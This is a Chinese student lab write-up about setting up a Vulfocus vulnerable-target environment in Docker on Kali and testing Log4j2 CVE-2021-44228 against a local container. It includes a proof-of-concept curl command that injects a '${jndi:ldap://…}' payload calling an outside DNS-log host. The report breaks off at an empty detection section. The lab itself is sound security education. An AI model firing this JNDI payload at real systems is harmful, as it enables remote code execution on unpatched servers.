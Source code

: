 # 网络安全综合实验：开源信息系统搭建、加固与漏洞攻防



## 基础实验要求

- 基础运行环境准备
- 漏洞攻防环境现状
- 漏洞攻防环境搭建
- 漏洞攻击
- 漏洞利用检测
- 漏洞利用防御与加固

## 实验过程

### 基础运行环境准备

准备基础的实验环境

多重加载镜像，使用两块网卡，第二块网卡使用host-only

![nic](img/nic.png)

启动虚拟机，查看IP地址，配置网卡，保证网卡能正确的分配到地址

![configuration](img/configuration.png)

使用kali开启ssh服务

![ssh](img/ssh.png)

![ssh1](img/ssh1.png)

ssh服务启动和ssh免密登录

### 漏洞攻防环境搭建

##### 纯净版 Kali 初始化基础环境

```
sudo apt update && sudo apt install -y docker.io docker-compose jq

# 将当前用户添加到 docker 用户组，免 sudo 执行 docker 相关指令
# 重新登录 shell 生效
sudo usermod -a -G docker ${USER}

# 切换到 root 用户
sudo su -

# 使用中科大 Docker Hub 镜像源
cat <<EOF > /etc/docker/daemon.json
{
  "registry-mirrors": ["https://docker.mirrors.ustc.edu.cn/"]
}
EOF

# 重启 docker 守护进程
systemctl restart docker

# 提前拉取 vulfocus 镜像
docker pull vulfocus/vulfocus:latest
```

![vulfocus](img/vulfocus.png)

对 [fofapro/vulfocus](https://github.com/fofapro/vulfocus) 提供傻瓜式二次封装，启动方式简化为

1. `bash start.sh`

2. 选择对外提供访问 `vulfocus-web` 的 IP

3. 打开浏览器访问 admin / admin

   ppps：（当时真没注意这里，只顾着跟着视频做，老师直接就账号密码输入进去了，我还在想要不要注册一个账户，结果发现注册不了，当时以为账号密码是随机的，结果随便输入也不行，结果搜索发现有默认账号，当时在想“我请问只有我一个人不知道原来是默认吗😭😭😭”）

   ![visit](img/visit.png)

4. 【镜像管理】-【镜像管理】-【一键同步】

5. 搜索感兴趣的漏洞镜像-【下载】

6. 镜像下载完毕后，【首页】，随时可以【启动】镜像开始漏洞攻防实验了

### 漏洞攻击

实验要求有

从单个漏洞靶标开始

> 一切来自于 **用户输入** 的数据都是不可信的。

1. 找到靶标的【访问入口】
2. 收集【威胁暴露面】信息
3. 检测漏洞存在性
4. 验证漏洞可利用性
5. 评估漏洞利用效果			

在实验中我们以 [log4j2 CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) 为例，首先我们找到靶标的访问入口， 在Vulfocus启动漏洞环境，镜像管理中搜索`Log4j2远程命令执行（CVE-2021-44228）`镜像并下载，完成后启动： 

![log4j2](img/log4j2.png)

浏览器访问该地址`192.168.144.5：XXXXX`（因每次启动该镜像，访问地址端口会发生变化，实验截图的时间不统一，所以地址会发生变化，但都是实验者全程做下来的）

查看到容器名称为`hardcore_gauss`

![！](img/container_name.png)

进入容器

```
docker exec -it optimistic_blackwell bash
```

[![intothecontainer](img/intothecontainer.png)](https://github.com/Xuyan-cmd/Network-security-attack-and-defense-practice/blob/rock/img/intothecontainer.png)

![lsdockercontainer](img/lsdockercontainer.png)

查看到容器目录下有`demo.jar`文件，拉取到容器的宿主机

```
# docker cp <容器名称或ID>:<容器内文件路径> <宿主机目标路径>
sudo docker cp optimistic_blackwell:/demo/demo.jar ./
```

![pulljarfile](img/pulljarfile.png)

使用[jadx](https://github.com/skylot/jadx/releases/tag/v1.4.7)反编译demo.jar

![decompilejar](img/decompilejar.png)

源码中有名为`Log4j2RceApplic`的类，验证该漏洞存在

**验证漏洞可利用性**

访问http://dnslog.cn/获取专属随机子域名

![dnslog](img/dnslog.png)

使用PoC手动测试，在宿主机上输入命令

```php
curl -X POST http://192.168.144.5:44940/hello -d payload='"${jndi:ldap://9fkjt1.dnslog.cn/exp}"' 
```

产生报错

![post](img/post.png)

反复试验无果后，决定换一种思路达成实验结果











### 漏洞利用检测

